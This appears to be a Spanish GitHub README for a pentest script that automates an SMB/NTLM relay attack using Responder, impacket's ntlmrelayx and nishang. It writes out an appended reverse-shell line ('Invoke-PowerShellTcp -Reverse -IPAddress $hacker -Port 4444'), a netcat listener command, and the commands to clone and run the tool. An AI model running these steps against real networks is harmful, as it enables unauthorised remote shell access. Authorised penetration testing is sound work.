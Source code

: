 
# SambaRelay

Canal de youtube  https://youtube.com/c/Anonimo501

Grupo en Telegram https://t.me/Pen7esting

## Samba Relay

Este script es creado para fines educativos o para hacer auditorias profesionales de pentesting a nivel empresarial, no me hago responsable del mal uso de dicho  script, este script automatiza la modificacion del archivo Responder.conf en los valores SMB = Off y HTTP = Off, locual lo deja a la escucha, tambien descarga automaticamente https://github.com/SecureAuthCorp/impacket y descarga https://github.com/samratashok/nishang en nishang ingresa a nishang/Shells/ copia el archivo y lo renombra cp Invoke-PowerShellTcp.ps1 PS.ps1, al archivo PS.ps1 se le añade una linea al final que es la siguiente  Invoke-PowerShellTcp -Reverse -IPAddress $hacker -Port 4444, se deja a la escucha un server http automaticamente con el siguiente comando python -m SimpleHTTPServer, dejamos nc a la escucha rlwrap nc -nlvp 4444, no es necesario instalar los requerimientos de impacket o nishang ya que el script lo hace automaticamente, tambien crea un archivo llamado targets.txt dentro de /impacket/examples el cual contiene la  ip victima y por ultimo se ejecutal ntlmrelayx.py para lograr el acceso.

El script se ejecuto sobre ParrotOS

![Screenshot_1](https://user-images.githubusercontent.com/67207446/119040557-2eaae600-b97b-11eb-8cf6-0ac4d2581527.png)




git clone https://github.com/Anonimo501/SambaRelay.git

cd SambaRelay

chmod +x SMB_Relay.sh

./SMB_Relay.sh
